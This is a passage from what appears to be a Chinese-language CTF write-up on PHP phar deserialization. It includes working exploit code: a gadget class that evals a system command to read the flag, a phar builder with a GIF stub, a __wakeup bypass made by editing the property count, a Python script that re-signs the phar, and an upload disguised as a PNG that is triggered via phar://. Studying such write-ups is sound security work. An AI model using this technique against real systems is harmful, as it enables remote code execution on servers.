升级版，再那样读取回显nonono

考察phar反序列化

```
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct(){
        $this->ljt="Misc";
        $this->dky="Re";
        $this->cmd='system("cat /flag");';
        
    }
    public function __destruct(){
        if($this->ljt==="Misc"&&$this->dky==="Re")
            eval($this->cmd);
    }
    public function __wakeup(){
        $this->ljt="Re";
        $this->dky="Misc";
    }
}
$poc=new LoveNss();
$phar = new Phar('1.phar');
$phar -> startBuffering();       
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');  
$phar -> addFromString('test.txt','test');    
$phar -> setMetadata($poc);    
$phar -> stopBuffering();  
```

这里需要注意要绕过wakeup魔法函数修改一下LoveNss":3->4,这样还是不行，百度之后发现需要对phar包重新校验，找了个校验脚本

```
from hashlib import sha1
f = open('./1.phar', 'rb').read() 
print(f)
s = f[:-28] 
h = f[-8:] 
#print(h)
newf = s+sha1(s).digest()+h 
print(newf)
open('2.phar', 'wb').write(newf) 
```

![image-20220803175323880](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208031753985.png?x-oss-process=hzy)

然后phar被过滤，骚姿势走起来，压缩包绕过，phar包压缩之后改png上传然后phar读取

```
phar://./upload/1.png
```
